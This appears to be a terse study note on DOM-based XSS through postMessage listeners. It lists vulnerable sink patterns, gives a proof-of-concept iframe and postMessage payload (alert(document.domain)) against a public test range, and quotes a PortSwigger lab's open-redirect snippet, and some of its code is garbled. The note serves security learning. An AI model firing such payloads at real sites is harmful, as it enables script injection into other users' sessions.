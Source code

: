<h1>XSS Dom</h1>
search for:
window.addEventListener('message',
where e is vulnerable
window.addEventListener('message', function(e) {

And functions vulnerables
```js
eval(e)
```
var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d; ACMEplayer.element.src = e.url; | ```js <iframe src=e.url> vulnerable e.url```
```js
innerHTML(e)
```
```js
<iframe id="target" src="https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval"></iframe>
<script>
    var a = document.getElementById('target');
    a.addEventListener('load',() => {
            target.contentWindow.postMessage({"action":"exec","payload":"alert(document.domain)"},"*")
  })
</script>
```

portswigger search for
onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'
tip
read every <a> tag
